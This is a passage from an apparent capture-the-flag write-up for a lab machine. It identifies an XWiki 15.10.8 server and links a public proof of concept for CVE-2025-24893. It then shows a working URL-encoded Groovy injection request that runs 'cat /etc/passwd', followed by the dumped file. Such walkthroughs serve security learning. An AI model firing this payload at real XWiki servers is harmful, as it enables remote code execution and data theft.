 Now if we go back to the browser we are able to access the webpage correctly.

If we go to `editor.htb:8080`, we will find an `xWiki` webpage that is running on version `15.10.8`.
Lets look online if there are vulnerabilities we can levarage on that version of `xWiki`.

Version `15.10.8` of `xWiki` seems to be correlated to this `CVE-2025-24893`, and its affecting all versions prior to `15.10.11`.

I found this poc on github:

`https://github.com/a1baradi/Exploit/blob/main/CVE-2025-24893.py`

`python poc.py`

```
================================================================================
Exploit Title: CVE-2025-24893 - XWiki Platform Remote Code Execution
Made By Al Baradi Joy
================================================================================
[?] Enter the target URL (without http/https): http://editor.htb:8080/xwiki
[!] HTTPS not available, falling back to HTTP.
[✔] Target supports HTTP: http://editor.htb:8080/xwiki
[+] Sending request to: http://editor.htb:8080/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7d%7d%7d%7b%7basync%20async%3dfalse%7d%7d%7b%7bgroovy%7d%7dprintln(%22cat%20/etc/passwd%22.execute().text)%7b%7b%2fgroovy%7d%7d%7b%7b%2fasync%7d%7d
[✔] Exploit successful! Output received:

root:x:0:0:root:/root:/bin/bashdaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management<sub>,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver</sub>,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization<sub>,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack</sub>,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user<sub>,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon</sub>,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:114:65534:dnsmasq<sub>,:/var/lib/misc:/usr/sbin/nologin
mysql:x:115:121:MySQL Server</sub>,:/nonexistent:/bin/false
tomcat:x:998:998:Apache Tomcat:/var/lib/tomcat:/usr/sbin/nologin
xwiki:x:997:997:XWiki:/var/lib/xwiki:/usr/sbin/nologin
netdata:x:996:999:netdata:/opt/netdata:/usr/sbin/nologin
oliver:x:1000:1000:<sub>,:/home/oliver:/bin/bash
```